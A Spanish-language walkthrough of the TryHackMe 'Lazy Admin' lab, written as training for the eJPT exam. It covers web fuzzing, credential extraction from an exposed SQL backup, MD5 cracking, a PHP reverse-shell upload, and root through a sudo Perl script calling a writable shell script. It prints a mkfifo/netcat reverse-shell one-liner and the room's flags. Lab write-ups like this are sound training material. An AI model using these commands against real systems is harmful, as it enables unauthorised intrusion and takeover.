

## Resumen

**Lazy Admin** es la sexta máquina de la serie _Road to eJPTv2_ y la más elaborada hasta ahora en términos de cadena de ataque. No hay un vector único — hay que encadenar: fuzzing en dos capas para encontrar el CMS, extracción de credenciales desde un backup MySQL expuesto, crackeo de hash MD5, acceso al panel admin, subida de reverse shell, y una escalada de privilegios indirecta via sudo Perl que modifica un script intermedio.

| Atributo       | Valor                                                                       |
| -------------- | --------------------------------------------------------------------------- |
| **Plataforma** | TryHackMe                                                                   |
| **Dificultad** | Fácil                                                                       |
| **OS**         | Linux                                                                       |
| **Sala**       | [Lazy Admin](https://tryhackme.com/room/lazyadmin)                          |
| **Skills**     | Web Enum, CMS Exploitation, Hash Cracking, File Upload, Sudo Privesc (Perl) |

### 🎥 Versión en video



> Si prefieres seguir el walkthrough paso a paso, continúa leyendo. El video cubre el mismo proceso en formato visual.

### Herramientas usadas

- `nmap` — enumeración de puertos y servicios
- `gobuster` — fuzzing de directorios en dos capas
- `wget` — descarga del backup MySQL
- `john` — crackeo del hash MD5
- `netcat` — listener para reverse shell

### Resumen de la solución

1. Nmap revela SSH (22) y HTTP (80) con Apache 2.4.18
2. Gobuster descubre `/content/` — SweetRice CMS versión 1.5.1
3. Segundo fuzzing en `/content/` descubre `/content/inc/` con backup MySQL expuesto
4. El backup contiene usuario `manager` y hash MD5: `42f749ade7f9e195bf475f37a44cafcb`
5. John crackea el hash → `Password123`
6. Acceso al panel admin de SweetRice en `/content/as/`
7. Subida de reverse shell PHP5 via Media Center → shell como `www-data`
8. `sudo -l` revela que `www-data` puede ejecutar `/usr/bin/perl /home/itguy/backup.pl`
9. `backup.pl` ejecuta `/etc/copy.sh` — modificamos `copy.sh` con reverse shell mkfifo
10. Ejecutamos el script con sudo → root

---

## Reconocimiento

### Verificación de conectividad

```bash
ping -c 1 10.66.153.42
64 bytes from 10.66.153.42: icmp_seq=1 ttl=62 time=68.1 ms
```

> **TTL=62** → la máquina objetivo es **Linux**. Igual que en Bounty Hacker, el TTL de 62 indica uno o dos hops de red entre atacante y objetivo.

### Escaneo de puertos con Nmap

Primer barrido a todos los puertos TCP:

```bash
nmap 10.66.153.42 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Solo dos puertos. Todo el ataque pasa por la web.

Escaneo dirigido con versiones y scripts:

```bash
nmap 10.66.153.42 -n -Pn -sS -sCV -p22,80 --min-rate=5000 -oN escaneoLazy.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

> **Hallazgos clave:**
>
> - **Puerto 80:** Apache 2.4.18 mostrando la página por defecto de Ubuntu. Hay contenido oculto esperando ser descubierto con fuzzing.
> - **Puerto 22:** SSH activo — posible vector si obtenemos credenciales válidas.

---

## Enumeración web

### Primera capa de fuzzing

```bash
gobuster dir -u http://10.66.153.42 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,bak,xml
    /index.html   (Status: 200)
    /content      (Status: 301)
```

> **Hallazgo:** directorio `/content/` que contiene **SweetRice CMS versión 1.5.1**. Esto nos da un objetivo concreto: buscar vulnerabilidades conocidas en esa versión específica.

### Segunda capa de fuzzing en `/content/`

El primer fuzzing solo rascó la superficie. Hacemos fuzzing recursivo dentro de `/content/`:

```bash
gobuster dir -u http://10.66.153.42/content \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x html,php,css,xml,bak
    /index.php    (Status: 200)
    /images       (Status: 301)
    /js           (Status: 301)
    /inc          (Status: 301)
    /as           (Status: 301)
    /_themes      (Status: 301)
    /attachment   (Status: 301)
```

> **Dos hallazgos críticos:**
>
> - `/content/as/` → panel de administración de SweetRice
> - `/content/inc/` → directorio con archivos internos del CMS expuestos

### Exploración del directorio `/inc/`

Accedemos a `http://10.66.153.42/content/inc/` y encontramos el directorio con indexado habilitado:


Dentro encontramos el subdirectorio `mysql_backup/` con un backup completo de la base de datos. Un backup de base de datos expuesto en un servidor web es una vulnerabilidad crítica — puede contener credenciales, datos de usuarios y configuración del sistema.

```bash
wget http://10.66.153.42/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

### Extracción de credenciales del backup

Buscamos contraseñas dentro del archivo descargado:

```bash
cat mysql_bakup_20191129023059-1.5.1.sql | grep passwd
s:6:"passwd";s:32:"42f749ade7f9e195bf475f37a44cafcb"
```

> **Credenciales encontradas:**
>
> - **Usuario:** `manager`
> - **Hash MD5:** `42f749ade7f9e195bf475f37a44cafcb`

### Crackeo del hash con John

Guardamos el hash en un archivo y lanzamos John con rockyou:

```bash
echo "42f749ade7f9e195bf475f37a44cafcb" > manager.hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt manager.hash
Password123      (?)
```

> **Credenciales completas:** `manager:Password123`

---

## Explotación

### Acceso al panel de administración

Con las credenciales crackeadas accedemos al panel de SweetRice:

```
http://10.66.153.42/content/as/
```


Las credenciales `manager:Password123` funcionan. Obtenemos acceso completo al dashboard del CMS:



### Reverse Shell via Media Center

SweetRice permite subir archivos desde la sección **Media Center**. Subimos una reverse shell PHP5 (`.php5` o `.phtml` para bypass de posibles filtros).

Nos ponemos en escucha:

```bash
nc -nlvp 4545
```

Subimos la reverse shell desde Media Center y navegamos a la URL del archivo subido. Recibimos la conexión:

```bash
connect to [192.168.149.0] from (UNKNOWN) [10.66.153.42] 45420
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Estabilización de la shell

Esta máquina tiene Python3 disponible — usamos el método completo de estabilización:

```bash
which python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 cols 184
```

> **¿Por qué este método es mejor que solo `export SHELL=bash`?** `pty.spawn` crea un pseudo-terminal completo, lo que habilita autocompletado con Tab, historial de comandos, y permite usar editores como `nano` o `vi`. Es la estabilización más completa disponible sin herramientas adicionales.

---

## Post-explotación

### Enumeración de usuarios

```bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
itguy:x:1000:1000:THM-Chal:/home/itguy:/bin/bash
```

Usuario del sistema: `itguy`.

### Flag de usuario

```bash
cd /home/itguy
cat user.txt
```

> **Flag de usuario:** `THM{63e5bce9271952aad1113b6f1ac28a07}`

### Archivos interesantes en el home de itguy

```bash
ls -l /home/itguy
-rw-r--r-x 1 root  root    47 Nov 29  2019 backup.pl
-rw-rw-r-- 1 itguy itguy   16 Nov 29  2019 mysql_login.txt
```

Revisamos `backup.pl`:

```bash
cat backup.pl
```

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

> **Hallazgo clave:** `backup.pl` es un script Perl propiedad de root que ejecuta `/etc/copy.sh`. Si podemos ejecutar `backup.pl` con sudo Y podemos modificar `copy.sh`, tenemos escalada indirecta.

### Enumeración de sudo

```bash
sudo -l
User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

> **Plan de ataque confirmado:** `www-data` puede ejecutar `backup.pl` como root. `backup.pl` ejecuta `/etc/copy.sh`. Si `/etc/copy.sh` es escribible por `www-data`, podemos inyectar una reverse shell ahí y ejecutarla como root via `sudo perl backup.pl`.

Verificamos permisos de `/etc/copy.sh`:

```bash
ls -l /etc/copy.sh
-rw-r--rwx 1 www-data www-data 81 Nov 29  2019 /etc/copy.sh
```

`/etc/copy.sh` tiene permisos `rwx` para otros — **`www-data` puede escribir en él**. La cadena está completa.

---

## Escalada de privilegios

### Cadena de escalada: sudo → Perl → Shell script

La escalada funciona en dos pasos:

1. Modificar `/etc/copy.sh` para que ejecute una reverse shell
2. Ejecutar `backup.pl` con sudo — que llamará al `copy.sh` modificado como root

### Paso 1: Modificar `/etc/copy.sh`

Nos ponemos en escucha en una nueva terminal:

```bash
nc -nlvp 5555
```

Reemplazamos el contenido de `copy.sh` con un reverse shell mkfifo:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.149.0 5555 >/tmp/f" > /etc/copy.sh
```

### Paso 2: Ejecutar backup.pl con sudo

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

En nuestra terminal de escucha recibimos la conexión como root:

```bash
# whoami
root
```

### Flag de root

```bash
cd /root
cat root.txt
```

> **Flag de root:** `THM{6637f41d0177b6f37cb20d775124699f}`

---

## Lecciones aprendidas

- **El fuzzing en una sola capa puede no ser suficiente** — El primer gobuster encontró `/content/`. Sin el segundo fuzzing dentro de `/content/`, nunca habríamos encontrado `/content/inc/` con el backup MySQL. En aplicaciones complejas, siempre fuzzea recursivamente los directorios más interesantes.
- **Los backups de base de datos nunca deben estar en el webroot** — Un archivo `.sql` accesible públicamente puede contener credenciales, datos de usuarios y configuración crítica del sistema. En un pentest real, esto es un hallazgo crítico que se reporta inmediatamente.
- **La escalada indirecta requiere entender toda la cadena** — Aquí no fue `sudo binario → shell` directamente. Fue `sudo perl → script perl → shell script → shell`. Ver la cadena completa antes de ejecutar es fundamental para no perderse.
- **Los permisos de archivos intermedios importan tanto como los directos** — `backup.pl` era de root e inmodificable. Pero `copy.sh` tenía permisos para mundo (`rwx`). La seguridad de la cadena es tan fuerte como su eslabón más débil.
- **`pty.spawn` vs `export SHELL=bash`** — Cuando Python3 está disponible, siempre usa la estabilización completa con `pty.spawn`. Te da una shell funcional con todos los controles de terminal. Sin esto, comandos como `sudo -l` pueden comportarse de forma errática.

### Para la eJPT

Esta máquina ejercita habilidades directamente evaluadas en la eJPT:

- Enumeración web en múltiples capas con Gobuster
- Identificación y explotación de CMS con versiones vulnerables
- Extracción de credenciales desde archivos expuestos
- Crackeo de hashes MD5 con John the Ripper
- Subida de reverse shells via paneles de administración web
- Escalada de privilegios indirecta via sudo + scripts encadenados
- Análisis de permisos de archivos para identificar vectores de escritura

**Tiempo aproximado de resolución:** 45-60 minutos — la mayor parte del tiempo en el fuzzing en dos capas y entender la cadena de escalada.

---

## Referencias

- [Lazy Admin — TryHackMe](https://tryhackme.com/room/lazyadmin)
- [GTFOBins — perl](https://gtfobins.github.io/gtfobins/perl/)
- [SweetRice CMS](http://www.basic-cms.org/)
- [John the Ripper documentation](https://www.openwall.com/john/)
- [PayloadsAllTheThings — Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
